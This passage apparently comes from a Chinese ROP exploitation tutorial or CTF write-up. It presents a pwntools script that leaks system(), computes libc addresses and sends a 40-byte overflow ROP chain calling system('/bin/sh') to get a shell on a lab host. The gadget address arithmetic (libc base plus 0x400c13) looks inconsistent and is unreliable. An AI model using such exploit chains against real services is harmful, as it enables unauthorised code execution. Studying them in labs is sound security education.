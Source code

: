还有用来传参的gadget :`pop rdi; ret`

![Alt](img/ROP技术47.png)
![Alt](img/ROP技术48.png)

构建ROP链如下：

```python
    #!/usr/bin/python
    #coding:utf-8

    from pwn import *

    io = remote('172.17.0.2', 10001)

    io.recvuntil(": ")
    io.sendline('4')
    io.recvuntil("@0x")
    system_addr = int(io.recv(12), 16)
    # system_addr = int(io.recv()[0:12], 16)
    libc_start = system_addr - 0x456a0
    pop_rdi_addr = libc_start + 0x400c13
    binsh_addr = libc_start + 0x18ac40

    payload = ""
    payload += 'A'*40
    payload += p64(pop_rdi_addr)
    payload += p64(binsh_addr)
    payload += p64(system_addr)

    io.sendline(payload)

    io.interactive()

```

运行脚本即可拿到shell

![Alt](img/ROP技术49.png)
